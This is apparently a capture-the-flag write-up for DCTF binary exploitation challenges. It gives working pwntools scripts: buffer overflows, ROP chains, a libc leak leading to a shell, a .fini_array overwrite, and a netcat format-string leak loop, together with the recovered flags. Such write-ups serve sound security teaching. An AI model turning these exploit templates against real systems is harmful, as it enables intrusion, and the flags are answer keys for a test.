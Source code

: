 # ***PWN_SANITY_CHECK***

```py
from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += b'A' * 72
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()
```
FLAG: ***``dctf{Ju5t_m0v3_0n}``***

# ***PINCH_ME***

```py
from pwn import *

binary = context.binary = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload  = b''
payload += b'A' * 24
payload += p64(0x1337c0de)

p.sendlineafter('?\n',payload)
p.interactive()
```
FLAG : `***`dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}``***

# ***README***

The vuln function reads flag.txt into a local (local_58) stack array.

The vulnerability is the printf(local_38) statement that is missing a format string. Exfiltrating the flag is as simple as passing %nn$p format strings where nn is the position in the stack; starting from 6 just increment until the output starts with dctf (nn = 8), then continue until you have the flag.

```c
for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

This bash script will echo %8$p, then echo %9$p, etc... into the challenge service serially (one by one), capturing the output (grep, awk), converting to text (xxd), and then finally reversing the string (rev, since x86_64 is little endian).

```
dctf{n0w_g0_r3ad_s0me_b0rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```
By guessing the last letters as `0k5`.

FLAG : ***```dctf{n0w_g0_r3ad_s0me_b00k5}```***

# ***MAGIC_TRICK***

```py
from pwn import *

binary = context.binary = ELF('./magic_trick')

p = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

p.sendlineafter('write\n', str(binary.sym.win))
p.sendlineafter('it\n', str(binary.get_section_by_name('.fini_array').header.sh_addr))
print(p.recvuntil('}').decode())
```

FLAG : ***```dctf{1_L1k3_M4G1c}```***

# ***BABY_BOF***

```py
from pwn import *

binary = context.binary = ELF('./baby_bof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if args.REMOTE:
    p = remote('dctf-chall-baby-bof.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')

puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')
p.interactive()
```
[https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md ] (#For more like this)

similiar : [darkctf](#https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop) [downunderctf](#https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what)
